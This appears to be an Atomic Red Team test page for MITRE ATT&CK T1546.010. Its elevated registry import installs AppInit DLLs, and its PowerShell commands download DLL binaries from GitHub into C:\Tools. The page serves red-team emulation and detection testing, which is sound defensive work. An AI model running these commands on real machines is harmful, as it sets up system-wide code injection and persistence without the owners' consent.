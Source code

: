 ```yaml
---
tags: [T1546_010, atomic_test]
filename: "[[T1546.010 - Event Triggered Execution- AppInit DLLs]]"
---
```

# T1546.010 - Event Triggered Execution: AppInit DLLs

## Atomic Test #1 - Install AppInit Shim
AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the system. Upon succesfully execution, 
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regularly as your computer starts up various applications and may in fact drive you crazy. A reliable way to make the message box appear and verify the 
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up.

Note: If secure boot is enabled, this technique will not work. https://docs.microsoft.com/en-us/windows/win32/dlls/secure-boot-and-appinit-dlls

**Supported Platforms:** Windows


**auto_generated_guid:** a58d9386-3080-4242-ab5f-454c16503d18





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010.reg|
| registry_cleanup_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010-cleanup.reg|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe import "#{registry_file}"
```

#### Cleanup Commands:
```cmd
reg.exe import "#{registry_cleanup_file}" >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})
##### Check Prereq Commands:
```powershell
if ((Test-Path "#{registry_file}") -and (Test-Path "#{registry_cleanup_file}")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory (split-path "#{registry_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```
##### Description: DLL's must exist in the C:\Tools directory (T1546.010.dll and T1546.010x86.dll)
##### Check Prereq Commands:
```powershell
if ((Test-Path c:\Tools\T1546.010.dll) -and (Test-Path c:\Tools\T1546.010x86.dll)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory C:\Tools -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010.dll" -OutFile C:\Tools\T1546.010.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010x86.dll" -OutFile C:\Tools\T1546.010x86.dll
```




<br/>
